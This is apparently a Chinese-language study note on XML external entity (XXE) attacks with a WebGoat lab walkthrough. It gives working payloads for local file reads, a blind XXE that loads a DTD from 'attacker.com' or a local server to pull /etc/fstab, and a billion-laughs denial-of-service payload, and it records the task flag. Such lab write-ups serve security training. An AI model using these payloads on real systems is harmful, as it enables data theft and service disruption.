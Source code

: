 # XEE
XML 外部实体攻击。

* Classic 包含一个本地文件
* Blind 返回中没有显示输出或者错误
* Error 尝试从错误页面获取信息。

```
<?xml version="1.0" standalone="yes" ?>
<!DOCTYPE author [
  <!ELEMENT author (#PCDATA)>
  <!ENTITY js "Jo Smith">
]>
<author>&js;</author>
```
一般利用引入属性来解决问题。比如：

``` xml
<!DOCTYPE user
    [<!ENTITY root SYSTEM "file:///">
]>
```

但是有时候目标文件有 <>&, 等非法 XML 字符无法被直接嵌入。需要盲 XXE。方法就在自己服务器上上传一个 dtd 文件，而后利用属性实体进行导入。

比如：

```
<!ENTITY % file SYSTEM "file:///etc/fstab">
<!ENTITY % start "<![CDATA[">
<!ENTITY % end "]]>">
<!ENTITY % all "<!ENTITY fileContents
'%start;%file;%end;'>">
```

``` xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```

## DOS 攻击

也可以利用 XXE 进行攻击。比如:

```XML
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

## Task1

直接使用:

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [<!ENTITY test SYSTEM "file:///">]>
<comment><text>hello&test;</text></comment>
```

即可。

## Task2

发现服务器可以识别 xml。将 content-type 修改成 application/xml 后上传上题 xml 即可。

## Task3

Blind XXE。利用 `Python -m http.server` 上传了本地文件 task.dtd 而后构造攻击 xml 为
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE copyright [
  <!ENTITY % dtd SYSTEM
  "http://192.168.122.1:2000/task.dtd">
  %dtd;
  %all;
]>
<comment><text>&fileContents;</text></comment>
```

获得 flag 为 `WebGoat 8.0 rocks... (jbNnHGDMUM)`
